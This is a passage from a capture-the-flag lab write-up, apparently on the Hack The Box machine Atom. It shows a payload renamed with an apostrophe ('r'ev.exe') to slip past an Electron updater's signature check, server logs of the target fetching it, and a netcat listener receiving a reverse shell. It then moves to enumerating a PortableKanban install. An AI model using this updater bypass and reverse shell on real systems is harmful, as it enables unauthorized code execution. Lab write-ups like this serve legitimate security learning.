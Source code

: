     oxdf@parrot$ cp rev.exe "r'ev.exe"



Then it still doesn't find `r'ev.exe.blockmap`, but it does find
`r'ev.exe` (see the 200 status code):



    10.10.10.237 - - [10/Jul/2021 07:08:13] code 404, message File not found
    10.10.10.237 - - [10/Jul/2021 07:08:13] "GET /r'ev.exe.blockmap HTTP/1.1" 404 -
    10.10.10.237 - - [10/Jul/2021 07:08:13] "GET /r%27ev.exe HTTP/1.1" 200 -



And it runs, as a reverse shell connects back:



    oxdf@parrot$ nc -nvlp 443
    listening on [any] 443 ...
    connect to [10.10.14.7] from (UNKNOWN) [10.10.10.237] 63974
    Microsoft Windows [Version 10.0.19042.906]
    (c) Microsoft Corporation. All rights reserved.

    C:\WINDOWS\system32>



Interestingly, when the request for the `.exe` file was 404, Atom would
hit the web server every minute. It seems like perhaps that attempting
to get a file but not finding it would break the process such that the
cleanup on Atom didn't continue. Once I put an executable there,
everything was cleaned up.

## Shell as administrator

### Enumeration

#### PortableKanban

In Jason's `Downloads` directory, there are two folders:



    PS C:\Users\jason\downloads> ls

        Directory: C:\Users\jason\downloads

    Mode                 LastWriteTime         Length Name
    ----                 -------------         ------ ----
    d-----         3/31/2021   2:36 AM                node_modules
    d-----          4/2/2021   8:21 PM                PortableKanban



`node_modules` is almost certainly related to the Heed application, but
`PortableKanban` is not. Googling for "portablekanban", the first hit is
an ExploitDB post, just before the link to the actual software:
